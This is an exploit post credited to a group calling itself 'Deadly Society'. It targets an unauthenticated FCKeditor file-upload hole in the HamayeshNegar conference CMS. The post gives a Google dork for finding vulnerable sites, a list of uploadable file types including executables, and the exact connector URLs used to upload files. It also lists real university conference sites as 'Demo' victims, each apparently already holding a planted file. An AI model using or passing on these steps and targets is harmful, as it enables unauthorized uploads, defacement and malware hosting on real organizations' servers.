 [x] Title : FCKeditor Cms HamayeshNegar  - Vulnerablity

[x] Date: 2015

[x] Exploit Author: Deadly Society

[x] Discovered By : Deadly Society

[x] contact : deadly.society@hotmail.com  

[x] Tested on : Windows 7 , Linux      

[x] Vendor Homepage: http://www.hamayeshnegar.com

[!] Google Dork : " طراحی و پیاده سازی شده توسط : همایش نگار" 

{You Can Upload : 'ai','avi','bmp','cs','dll','doc','exe','fla','gif','htm','html','jpg','js','mdb','mp3','pdf','png','ppt','rdp','swf','swt','txt','vsd','xls','xml','zip'}

Target Test ~

http://SiteName.com/class/editor/editor/filemanager/browser/default/browser.html
{ use Exploit }
http://SiteName.com//class/editor/editor/filemanager/browser/default/browser.html?Connector=http://SiteName.com//class/editor/editor/filemanager/connectors/php/connector.php
{ And Now You Can Upload FIle :D } 
{ Link Your File }
http://SiteName.com//editor_file/file/deadly.xml

Demo ~
http://www.bpums.ac.ir/class/editor/editor/filemanager/browser/default/browser.html
http://ichawc.sums.ac.ir/class/editor/editor/filemanager/browser/default/browser.html
http://iranptcongress23.sums.ac.ir/class/editor/editor/filemanager/browser/default/browser.html
http://colorectalcongress8.sums.ac.ir/class/editor/editor/filemanager/browser/default/browser.html
http://ihv2025.sums.ac.ir/class/editor/editor/filemanager/browser/default/browser.html

http://ichawc.sums.ac.ir//editor_file/file/deadly.xml
http://iranptcongress23.sums.ac.ir/editor_file/file/deadly.xml
http://colorectalcongress8.sums.ac.ir/editor_file/file/deadly.xml
http://ihv2025.sums.ac.ir/editor_file/file/deadly.xml

./ [x] We Are C4vity ~ haclx3r ~ K0b4ni 
